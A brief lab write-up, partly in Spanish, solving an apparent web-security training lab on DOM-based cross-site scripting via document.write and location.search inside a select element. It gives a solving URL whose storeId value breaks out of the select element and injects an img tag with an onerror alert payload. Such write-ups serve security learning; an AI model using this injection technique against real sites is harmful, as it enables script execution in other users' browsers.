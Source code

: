 # Lab: DOM XSS in document.write sink using source location.search inside a select element

```jsx
This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.
```

Vemos que existe un script en  Js que utiliza el parametro storeID

![image.png](Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%20lo%2011cfab5460ec8081a331cbd4dffb98b5/image.png)

![image.png](Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%20lo%2011cfab5460ec8081a331cbd4dffb98b5/image%201.png)

```jsx
https://0aa800c20475fc67da62f1fd006e0086.web-security-academy.net/product?productId=1&&storeId=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E
```

![image.png](Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%20lo%2011cfab5460ec8081a331cbd4dffb98b5/image%202.png)

![image.png](Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%20lo%2011cfab5460ec8081a331cbd4dffb98b5/image%203.png)